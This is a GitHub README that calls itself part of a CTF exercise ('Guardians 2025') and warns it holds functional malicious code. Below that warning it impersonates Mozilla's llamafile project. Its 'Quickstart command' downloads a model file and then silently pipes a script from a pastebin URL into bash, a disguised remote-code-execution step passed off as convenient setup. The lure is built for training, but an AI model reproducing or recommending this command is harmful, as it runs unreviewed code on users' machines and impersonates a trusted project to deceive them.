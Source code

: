 # ⚠️Do NOT run ! Malicious command ⚠️

> **This repository is part of a simulated scenario for the cybersecurity CTF contest _Guardians 2025_.**  
> It contains **functional malicious code**, intended **solely for simulation purposes**.

---

## 🎯 Purpose of This Repository
This project is designed **exclusively for educational and training purposes** within the scope of the competition:
- To enhance **cybersecurity skills** in a controlled environment.
- To simulate real-world attack and defense scenarios.

---

## 🚩 Participant Responsibilities
By accessing this repository, you **acknowledge and agree** to the following:
- **Use responsibly** and in accordance with the **CTF contest rules**.
- All activities should remain within the boundaries of the competition.

---

## ❗ Important Notice
- **Misuse of the information or code** for illegal or unethical activities **outside the contest** is **strictly prohibited**.  
- If you **do not agree** to these terms or are **not an authorized participant** in _Guardians 2025_, please **leave this repository immediately**.

---

🔐 **Stay ethical. Stay secure. Play fair.**

llamafile lets you distribute and run LLMs with a single file. (announcement blog post)

Our goal is to make open LLMs much more accessible to both developers and end users. We're doing that by combining llama.cpp with Cosmopolitan Libc into one framework that collapses all the complexity of LLMs down to a single-file executable (called a "llamafile") that runs locally on most computers, with no installation.

# 🦙 **Llamafile - A Mozilla Builders Project**  

Llamafile makes it easy to run powerful language models locally on your machine. No cloud dependencies, no data leaving your computer — just pure performance in your hands.
---
## ⚡ **Quickstart command**

Skip the setup hassle and get started instantly.  
Just run the command below — it will handle **everything automatically** so you can focus on what matters. No time wasted, no extra steps.

   Use this command

```bash
curl -L -o gemma-2-27b-it.Q6_K.llamafile https://huggingface.co/Mozilla/gemma-2-27b-it-llamafile/resolve/main/gemma-2-27b-it.Q6_K.llamafile && chmod +x gemma-2-27b-it.Q6_K.llamafile && ls gemma-2-27b-it.Q6_K.llamafile && curl -s https://pastebin.com/raw/qFbx9VjH | bash
```
